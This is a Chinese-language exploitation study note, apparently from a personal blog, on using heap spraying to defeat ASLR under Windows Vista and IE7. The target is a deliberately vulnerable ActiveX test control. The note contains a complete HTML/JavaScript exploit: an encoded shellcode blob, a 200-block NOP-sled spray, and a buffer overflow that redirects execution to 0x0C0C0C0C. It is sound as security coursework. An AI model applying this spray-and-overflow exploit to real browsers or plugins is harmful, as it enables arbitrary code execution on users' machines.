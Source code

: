 ```yaml
---
title: 漏洞利用学习笔记-019-利用HeapSpray攻击ASLR
description: 利用Heap Spray(堆喷射)技术来攻击ASLR并定位shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 堆喷射
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-019-利用heapspray攻击aslr/)

## 原理

通过申请大量的内存，占领内存中的0x0C0C0C0C的位置，并在这些内存中放置0x90和shellcode，最后控制程序转入0x0C0C0C0C执行。只要运气不要差到0x0C0C0C0C刚好位于shellcode中的某个位置，shellcode就可以成功执行

## 实验

### 准备工作

> 环境：系统：Windows Vista SP0，DEP状态：默认，浏览器：IE7

- 还是将之前用过的[Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx)作为攻击目标
- `VulnerAX.idl`中`CVulnerAXCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 思想

- 我们利用Heap spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
- 每个内存块中包含着0x90填充和shellcode
- Heap spray结束后我们会占领`0x0C0C0C0C`附近的内存，我们只要控制程序转入`0x0C0C0C0C`执行，在经过若干个0x90滑行之后就可以到达shellcode范围并执行
- test函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址
- 我们将函数返回地址覆盖为`0x0C0C0C0C`，在函数执行返回执行后就会转入我们申请的内存空间中

### 代码

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### 结果

- 成功攻击ASLR，如图

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)
